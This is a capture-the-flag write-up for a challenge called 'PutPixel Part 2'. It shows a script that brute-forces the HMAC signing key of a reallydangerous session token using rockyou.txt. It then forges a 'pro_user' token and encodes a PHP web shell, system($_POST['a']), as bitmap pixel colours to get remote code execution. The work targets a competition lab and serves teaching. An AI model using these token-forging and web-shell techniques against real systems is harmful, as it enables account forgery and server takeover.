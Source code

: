 # PutPixel Part 2

SieberrSec Industries' rival has released a new product called "PutPixel", and we need some intelligence on it. Unfortunately, that's all the info we have; it looks like they have been keeping their cards close to their chest.

<http://putpixel.sieberrsec.live/41f47fe0-9b02-455e-97a3-03b970768afd-1/>

Alternate link:

<http://putpixel.sieberrsec.live/41f47fe0-9b02-455e-97a3-03b970768afd-2/>

This looks like a budget clone of Reddit's r/Place... Can we hack it?

---

I first landed in some pixel drawing interface. Since I was sick of CTF, I
decided to play with the pixels for 5 minutes.


OK back to work. After scrolling through the source for a while, I noticed a
function `exportPixels()` which basically fetches `/export.php` with the pixel
map and a param that is quite similar to JWT or flask session tokens. This token
indicates our role and looks like this:

`anonymous_user.G9WrB5pktBpto7_KosU9DT8jF0I`

Also, I noticed a very subtle and covert advertisement to (probably the author's
or the author's senior's) npm package,
[reallydangerous](https://www.npmjs.com/package/reallydangerous). It's a JS port
of the python package,
[itsdangerous](https://itsdangerous.palletsprojects.com/en/2.1.x/).

Long story short, this package takes some input and appends a (custom)
base64-encoded signature to it, using some fancy HMAC-SHA1 algorithm. The
signature stops attackers from modifying the value (in this case
`anonymous_user`).

When I called the `exportPixels()` function manually, it redirected me to
`/export.php`, however because I am an anonymous_user and not a pro_user, it
stops me from exporting my pixels. :(

At this point I know my target is to change anonymous_user to pro_user.

Since reallydangerous was relatively unknown, I thought the vulnerability was in
the package. I spent a few hours browsing through and trying to spot any
vulnerabilities, but sadly to no avail. 

My 2nd guess is to brute-force the secret key used for signing. Again, I spent a
few hours trying to use hashcat to crack the key (since I'm not familiar with
HMAC and I thought it was a standard HMAC algorithm). However, I couldn't
proceed as the key is appended with a salt before hashing, and the output hash
is then used as the actual key to sign. So hashcat didn't have this algorithm
and I couldn't use it to crack the key.

With no other choice I need to write a script to manually crack the key.
Fortunately, JS has pretty good async support and is relatively fast (unlike
Python), so I thought it might be feasible.

Here's the script I used to brute-force:

```js
const rd = require("reallydangerous")

// value, sig
const test = ["anonymous_user", "G9WrB5pktBpto7_KosU9DT8jF0I"]

const filename = "/home/samuzora/ctf/tools/hashcat/rockyou.txt"
const wordlist = require("fs").readFileSync(filename, 'utf-8').split('\n')

Promise.all(wordlist.map(async letter => {
  const signer = new rd.Signer(letter);
  if (signer.verify_signature(test[0], test[1])) {
    console.log(letter)
    process.exit()
  }
}
))
```

I ran it against rockyou.txt, and soon enough my program cracked the key!

```
● comp/sieberrsec/putpixel (^._.^)
$ node brute.js
 gateway05
```

(Yes, ` gateway05` with a space in front)

From this, I can verify if the key is actually correct using the following
script:

```js
const rd = require("reallydangerous")

const signer = new rd.Signer(" gateway05")
console.log(signer.sign("anonymous_user"))
console.log(signer.sign("pro_user"))
```

```
● comp/sieberrsec/putpixel (^._.^)
$ node solve.js 
anonymous_user.G9WrB5pktBpto7_KosU9DT8jF0I
pro_user.YGD6iYfj5p91wq1KdfXbTxiEiIY
```

Very nice :)

Using the forged token, I sent another request via Burp Repeater as such:

![where flag????](./images/pro_user.png)

Sadly, this didn't give me the flag. 

After some thought, I googled BM66 magic bytes and it turns out this is in fact
not PNG, but BMP file format, or bitmap. Each pixel is represented almost
directly by its decoded hex value (so `#414141` would be represented by `AAA`).
I double-checked this using Python and it seems to hold.

So technically, I can directly control the bitmap array and it would reflect
almost 1-1 in the response. But how could this benefit me?

After experimenting a bit I realized this sounded a lot like usual file upload
attacks. By changing the array, I'm "uploading" a file to the server, which
responds with the decoded bitmap.

Since the backend is php, I can exploit file upload quite easily. But first,
let's see how the bitmap array translates to the decoded form. I changed the
1st pixel to #414243 ("ABC") and the 2nd pixel to #616263 ("abc"). Just for
fun, I changed the 1st pixel of the 2nd row to #414141 ("AAA") as well.

![testing the waters](./images/testing.png)

Erm... 

It seems that the 1st pixel isn't at the start...

And the 2nd pixel isn't after the 1st pixel...

But the 1st pixel of the 2nd row is after the first pixel...

And each pixel is in little endian...

Sadly, this means I need a lot more effort to get my payload working. Before
investing another 3 hours into this, I first double-checked if my PHP RCE even
worked with a simple echo. By hand, I painstakingly converted each letter in the
following payload to groups of 3 hex bytes and put them in their respective
places.

`<?php echo 'h';?>`

To my surprise, it actually worked! Before I entered the last pixel I could
clearly see my payload being put it letter by letter, but after the payload was
finished the output was just a h.

Excited, I quickly wrote a small Python script to slice the payload nicely for
me:

```py 
payload = "<?php echo system($_POST['a']);?>"

payload = [list(payload[j:j+3]) for j in range(0, len(payload), 3)]

for i in payload:
    out = "#"
    for j in i[::-1]:
        out += hex(ord(j))[2:]
    print(out)
```

```
● comp/sieberrsec/putpixel (^._.^)
$ python3 gen_payload.py
#703f3c
#207068
#686365
#73206f
#747379
#286d65
#505f24
#54534f
#61275b
#295d27
#3e3f3b
```

Then I pasted each pixel into the corresponding rows. Fortunately, I didn't
exceed the 16 rows since I was too lazy to figure out what to do should my
payload be too long.

And at last!!!:

![RCE!!!!!](./images/ls.png)

![flag](./images/flag.png)
